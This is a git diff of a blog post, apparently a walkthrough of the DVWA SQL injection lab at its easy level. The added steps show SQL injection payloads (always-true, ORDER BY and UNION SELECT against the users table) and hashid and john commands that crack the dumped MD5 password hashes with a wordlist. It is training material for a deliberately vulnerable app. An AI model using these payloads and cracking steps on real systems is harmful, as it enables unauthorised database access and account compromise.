

complete SQLi easy

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/_posts/2023-12-12-DVWA - SQL Injection.md b/_posts/2023-12-12-DVWA - SQL Injection.md
@@ -37,11 +37,11 @@ A SQL injection (SQLi) attack consists of insertion or "injection" of a SQL quer
 
 ## PHP required configurations
 
-Before start working on this lab, we must ensure that the `diplay_errors` PHP configuration is `On`. If not we won't be able to get any error messages back which will make the lab much harder.
+Before start working on this lab, we must ensure that the `display_errors` PHP configuration is `On`. If not we won't be able to get any error messages back which will make the lab much harder.
 
 1. Go to PHP Info and check the value of `display_errors` variable:
 
-    ![](php_info.png)
+    ![](php_info.png){: width='70%' }
 
     ![](errors_off.png)
 
@@ -52,23 +52,25 @@ Before start working on this lab, we must ensure that the `diplay_errors` PHP co
 3. Change `display_errors` to `On` on both parts of the file:
 
     ```shell
-    sudo nano [filePath]
+    # edit the php.ini file, change the path if different
+    $ sudo nano /etc/php/8.2/fpm/php.ini
     ```
 
     Press `CTRL+W` > 'display_errors' > `ENTER` > Change to `On`.
 
-    ![](config_file_errors1.png)
+    ![](config_file_errors1.png){: width='80%' }
 
     Press `CTRL+W` again > 'display_errors' > `ENTER` > Change to `On`.
 
-    ![](config_file_errors2.png)
+    ![](config_file_errors2.png){: width='80%' }
 
     Press `CTRL+X` to exit and save the file.
 
 4. Restart the PHP service (change `8.2` to the appropriate version if different):
 
     ```shell
-    sudo service php8.2-fpm restart
+    # restart the php-fpm service
+    $ sudo service php8.2-fpm restart
     ```
 
 5. Refresh the PHP Info page:
@@ -143,15 +145,109 @@ if( isset( $_REQUEST[ 'Submit' ] ) ) {
 
     ![](home_id1.png)
 
-    > Looking at the source code this translates to `"SELECT first_name, last_name FROM users WHERE user_id = '1';"`
+    This translates to:
+    ```sql
+    SELECT first_name, last_name 
+    FROM users 
+    WHERE user_id = '1';
+    ```
 
-2. If we input something that does not exist, such as `6'`, and follow that by something that is always `TRUE`, such as `'1'='1`, we will get everything back: no matter what the `ID` is `'1'='1'` is always `TRUE`, aka always `TRUE` scenario. We are essentially saying "display all records that are `FALSE` and all records that are `TRUE`. :
+2. We can try to break the query by inserting a single quote, `'`, and see what happens:
+
+    ![](single_quote.png)
+
+
+3. We can try the "Always True Scenario": if we input something that does not exist, such as `%'`, and follow that by something that is always `TRUE`, such as `'1'='1`, we will get everything back. We are essentially saying "display all records that are `FALSE` and all records that are `TRUE`:
 
     ![](sqli_users.png)
 
-    > This translates to: `"SELECT first_name, last_name FROM users WHERE user_id = '6' OR '1'='1';"`.
+    This translates to: 
+    ```sql
+    SELECT first_name, last_name 
+    FROM users 
+    WHERE user_id = '6' 
+    OR '1'='1'
+    ```
 
-3. 
+3. So we have the `First name` and `Surname` fields of all 5 users. We need to first find out if more fields are available in the database. According to [PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks) one way of doing that is by a UNION attack and the use of `ORDER BY` clause:
+
+    > Notice that we are using [MariaDB](https://mariadb.com/kb/en/comment-syntax/), so we need to end our payload either with `#` or `-- `.
+
+    If we inject `' ORDER BY 1--` we get nothing back, so we increment the number until we get an error:
+
+    ![](order_by_3.png)
+
+4. We got the error on `3`, so this confirms that there are only 2 fields in that table. We can try guessing those fields, for instance, inputting `' UNION SELECT username, password FROM users#`:
+
+    ![](username_error.png)
+
+5. The field `username` does not exist, so we could try changing that to something similar, such as `' UNION SELECT user, password FROM users#`:
+
+    ![](user_success.png)
+
+6. Instead of plaintext passwords, the database has stored the hashes. We can find the hash type as follows:
+
+    ```shell
+    # check the hash type
+    $ hashid 5f4dcc3b5aa765d61d8327deb882cf99
+    Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
+    [+] MD2
+    [+] MD5
+    [+] MD4
+    [+] Double MD5
+    [+] LM
+    [+] RIPEMD-128
+    [+] Haval-128
+    [+] Tiger-128
+    [+] Skein-256(128)
+    [+] Skein-512(128)
+    [+] Lotus Notes/Domino 5
+    [+] Skype
+    [+] Snefru-128
+    [+] NTLM
+    [+] Domain Cached Credentials
+    [+] Domain Cached Credentials 2
+    [+] DNSSEC(NSEC3)
+    [+] RAdmin v2.x
+    ```
+
+7. We can copy and paste all hashes (one per line) into a text file and use `john` to crack them:
+
+    ```shell
+    # copy and paste the hashes into a txt file
+    $ cat hashes
+    5f4dcc3b5aa765d61d8327deb882cf99
+    e99a18c428cb38d5f260853678922e03
+    8d3533d75ae2c3966d7e0d4fcc69216b
+    0d107d09f5bbe40cade3de5c71e9e9b7
+    5f4dcc3b5aa765d61d8327deb882cf99
+
+    # find how the MD5 format is defined
+    $ john --list=formats | grep MD5
+    416 formats (149 dynamic formats shown as just "dynamic_n" here)
+    Padlock, Palshop, Panama, PBKDF2-HMAC-MD4, PBKDF2-HMAC-MD5, PBKDF2-HMAC-SHA1,
+    Raw-Blake2, Raw-Keccak, Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-MD5u, Raw-SHA1,
+    solarwinds, SSH, sspr, Stribog-256, Stribog-512, STRIP, SunMD5, SybaseASE,
+    HMAC-MD5, HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512,
+
+    # crack the hashes
+    $ john --format=Raw-MD5 hashes --wordlist=/usr/share/wordlists/rockyou.txt
+    Using default input encoding: UTF-8
+    Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
+    Warning: no OpenMP support for this hash type, consider --fork=16
+    Press 'q' or Ctrl-C to abort, almost any other key for status
+    password         (?)
+    abc123           (?)
+    letmein          (?)
+    charley          (?)
+    4g 0:00:00:00 DONE (2023-12-12 16:49) 133.3g/s 102400p/s 102400c/s 179200C/s skyblue..dangerous
+    Warning: passwords printed above might not be all those cracked
+    Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
+    Session completed.
+    ```
+
+    > Notice that the first and last hash are the same, that is why we have 4 passwords as our output.
+
 
 ## Security: Medium
 
